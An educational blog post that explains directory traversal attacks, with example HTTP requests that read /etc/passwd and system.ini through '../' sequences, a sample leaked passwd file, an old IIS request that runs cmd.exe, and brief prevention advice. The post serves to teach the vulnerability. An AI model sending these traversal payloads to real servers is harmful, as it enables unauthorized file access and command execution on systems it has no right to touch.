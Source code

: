 ```yaml
---
layout: post
title:  "Directory Traversal Attacks"
categories: [Web-App]
tags: [vulnerabilities, webapp]
draft: false
---
```


# Directory Traversal Attacks

Directory Traversal sometimes known as Path Traversal is an HTTP attack which allows an attacker to access restricted directories and execute commands outside of the web server's root directory for example it could allow an attacker to access the `/etc/passwd` folder on a Linux system.

## Security Mechanisms

Web servers employ two main security mechanisms:
    - Access Control Lists
    - Web Root Directory

The Access Control List (ACL) is used in the authorisation process, it is a list which defines which users or groups are able to access, modify or execute particular files on a web server, it can also define other access rights and this has to be configured by the web server admin.

On the other hand we have the web root directory, this is a specific directory on the servers file system in which users are confined to, users are not meant to be able to read anything above what we define the web-root directory as from the web server. For example, the default web root directory for IIS (Internet Information Services) is `C:\Inetpub\wwwroot` and with this setup a user should not have access to `C:\Windows` but would have access to `C:\Inetpub\wwwroot\news` and other directories and files under the root directory. Similarly, if we use an Apache web server running in Linux as an example the web root directory is either `/var/www` or `/var/www/html` and this would mean theoretically an attacker should not be able to access anything outside of that for example `/etc/passwd`.

## How do these vulnerabilities occur and what can happen?

Directory Traversal vulnerabilities can occur either in the web server software or in the web application code, especially if the web app has a low budget team behind it, they might not be sinking many hours into writing secure code and we can thus abuse that into finding simple but powerful bugs like this one.

As mentioned, Directory Traversal attacks are simple but can be devastating, all an attacker really needs is a browser and a bit of knowledge on where to blindly find default files and directories on the system. Of course they also need to find somewhere where Directory/Path Traversal is viable however as we mentioned, if the web application has a small budget dev team they might not spend much time on writing secure code.

Using these attacks an attacker could step out of the web root directory and access other parts of the file system, this is dangerous because that might give the attacker the ability to view restricted files which could provide them further information required to compromise the entire system. This is why it is important to think of security in layers!

## Examples of Directory Traversal Attacks

Below we are going to take a look at some examples of a Directory Traversal attack in both the poor web application code scenario and the web server scenario, both of these are important to get a grip on because as mentioned it can be such a powerful bug.

### Example via Web Application Code

In web applications with dynamic pages, input is typically received from the browser via GET or POST requests, if you don't know the difference between the two it might be worth reading up on it because I won't cover those here. Let's take a look at an example of a GET request.

```
GET http://test.linxz.com/meme.asp?view=linxzarchive.html HTTP/1.1
Host: test.linxz.com
```

In the above GET request, the browser is requesting the dynamic page `meme.asp` from the server and with it, it sends the parameter `view` with the value `linxzarchive.html` when this request is executed on the server, `meme.asp` will retrieve the file `linxzarchive.html` from the servers file system, it will then render it and send it back to the browser which subsequently displays it to the user. From this the attacker assumes that `meme.asp` can retrieve files from the file system and he could send the following custom request.

```
GET http://test.linxz.com/meme.asp?view=../../../../../Windows/system.ini HTTP/1.1
Host: test.linxz.com
```

This will cause that dynamic page - `meme.asp` to retrieve the file `system.ini` from the file system and display it to the user, if you're not sure `../` tells instructs the system to move one directory up, sometimes it can be a bit of trial & error to figure out how many directories to go up but there are tools that can do this for you if you're lazy!

As a Linux example, let's imagine we have a website that displays lots of images of cats and we can download these images - let's say it's a desktop wallpaper inventory site so to speak, how could we abuse the nature of this site? Well, we know dynamic pages will be involved because when we click a cat it instructs the browser to download it, so we know we have a property telling the webserver to give us that file. Below you can see an example of the request I am talking about which helps us verify that something is finding a file in the web servers file system and passing it back to our browser.

```
GET /view/?photo=eeoplg75v6q-meme-cat.jpg HTTP/1.1
Host: ilovecats.com
```

So as you can see, `/view` is passing us that photo and our photo is equal to the filename of the photo we asked for on the filesystem, let's see if we can use this `photo=` to download `/etc/passwd` instead, we will assume we need to go through three directories to hit this. We will send the following request to the web server

```
GET /view/?photo=../../../etc/passwd HTTP/1.1
Host: ilovecats.com
```

We wait for the response and yay! We got the file! If we look at the response from the web server in Burp here is what we see below.

```
HTTP/1.1 200 OK
Date: Fri, 21 Jun 2019 10:04:22 GMT
Server: WSGIServer/0.2 CPython/3.6.5
Content-Type: text/html; charset=utf-8
Content-Disposition: attachment; filename=../../../etc/passwd
Content-Length: 979
X-Frame-Options: SAMEORIGIN

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
```

### Example via Web Server

Apart from vulnerabilities in the web application as we mentioned before these vulnerabilities can exist in the web server software itself either via the code of the software or some of the sample scripts left available on the server as part of the software setup process. Most of these have now been fixed in big web server software products such as IIS and Apache but in older versions of this software, its highly possible that they are open to Directory Traversal attacks. For example a URL request which makes use of the scripts directories on an old IIS server could be this.

```
GET http://linxz.com/scripts/..%5c../Windows/System32/cmd.exe?/c+dir+c:\ HTTP/1.1
Host: linxz.com
```

The above request would return to the user a list of all files in the `C:\` directory by executing `cmd.exe` and then passing the command `dir c:\` to it. The `%5c` is a web server escape code which actually represents the `\` character. Newer versions of modern web server software checks for these escape codes however in older software they work perfectly and thus allowing an attacker to execute such commands.

## Checking & Preventing

As mentioned earlier, in order to check for such vulnerabilities we can use tools such as web vulnerability scanners, there are so many tools its impossible to cover them all, or you could do it the manual way which can be a lot of fun and more rewarding :p

As far as preventing such vulnerabilities goes, as always making sure you update your software but the best way with this one is making sure that you correctly & vigilantly filter user input especially meta characters and make sure the data being passed is **good** data - testing your application thoroughly would allow you to refine this type of filtering.

## References

[Acunetix Directory Traversal](https://www.acunetix.com/websitesecurity/directory-traversal/)
